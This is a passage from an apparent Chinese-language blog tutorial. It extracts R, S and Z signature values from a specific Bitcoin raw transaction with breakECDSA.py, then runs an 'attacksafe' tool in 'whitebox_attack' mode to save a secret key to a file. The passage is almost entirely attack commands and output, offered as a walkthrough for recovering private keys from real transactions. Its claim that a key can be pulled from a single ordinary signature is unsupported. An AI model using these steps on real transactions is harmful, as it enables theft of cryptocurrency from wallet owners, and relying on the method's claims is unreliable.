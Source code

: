 

<h2>現在我們需要從所有易受攻擊的交易中獲取所有的 R、S、Z 值</h2>



<p>讓我們使用 breakECDSA.py 腳本</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-30-1024x287.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1611"/></figure>



<pre class="wp-block-code"><code>R = 0xaf4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f26
S = 0x0a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562
Z = 0xf3c7d4c7371a2c57be6b3eb6c446128a3a2cefdb593e6577750c95d22cd8309c</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-31-1024x359.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1613"/></figure>



<p>我們發起了這次攻擊<code>-tool whitebox_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>
